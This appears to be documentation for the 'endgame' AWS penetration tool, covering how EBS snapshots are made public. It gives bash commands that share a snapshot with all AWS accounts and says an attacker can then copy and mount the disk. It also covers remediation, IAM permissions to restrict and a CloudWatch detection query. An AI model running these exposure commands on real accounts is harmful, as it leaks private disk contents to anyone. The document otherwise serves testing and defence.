 # EBS Snapshot Exposure

* [Steps to Reproduce](#steps-to-reproduce)
* [Exploitation](#exploitation)
* [Remediation](#remediation)
* [Basic Detection](#basic-detection)
* [References](#references)

## Steps to Reproduce

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=*
export SNAPSHOT_ID=snap-1234567890abcdef0

endgame expose --service ebs --name $SNAPSHOT_ID
```

* To expose the resource using the AWS CLI, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 modify-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission \
    --operation-type add \
    --group-names all
```

* To verify that the snapshot has been shared with the public, run the following from the victim account:

```bash
export SNAPSHOT_ID=snap-1234567890abcdef0

aws ec2 describe-snapshot-attribute \
    --snapshot-id $SNAPSHOT_ID \
    --attribute createVolumePermission
```

* Observe that the contents match the example shown below.

## Example

The response of `aws ec2 describe-snapshot-attribute` will match the below, indicating that the EBS snapshot is public.

```json
{
    "SnapshotId": "snap-066877671789bd71b",
    "CreateVolumePermissions": [
        {
            "Group": "all"
        }
    ]
}
```

## Exploitation

After an EBS Snapshot is made public, an attacker can then:
* [copy the public snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html) to their own account
* Use the snapshot to create an EBS volume
* Attach the EBS volume to their own EC2 instance and browse the contents of the disk, potentially revealing sensitive or otherwise non-public information.

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Trusted Accounts Only**: Ensure that EBS Snapshots are only shared with trusted accounts, and that the trusted accounts truly need access to the EBS Snapshot.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EBS Snapshots**: Tightly control access to the following IAM actions:
  - [ec2:ModifySnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_ModifySnapshotAttribute.html): _Grants permission to add or remove permission settings for a snapshot_
  - [ec2:DescribeSnapshotAttribute](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshotAttribute.html): _Grants permission to describe an attribute of a snapshot. This includes information on which accounts the snapshot has been shared with._
  - [ec2:DescribeSnapshots](https://docs.aws.amazon.com/AWSEC2/latest/APIReference/API_DescribeSnapshots.html): _Grants permission to describe one or more EBS snapshots_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='ec2.amazonaws.com' and (eventName='ModifySnapshotAttribute' and requestParameters.attributeType='CREATE_VOLUME_PERMISSION') 
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [Sharing an Unencrypted Snapshot using the Console](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html#share-unencrypted-snapshot)
* [Share a snapshot using the command line](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ebs-modifying-snapshot-permissions.html)
* [aws ec2 copy-snapshot](https://docs.aws.amazon.com/cli/latest/reference/ec2/copy-snapshot.html)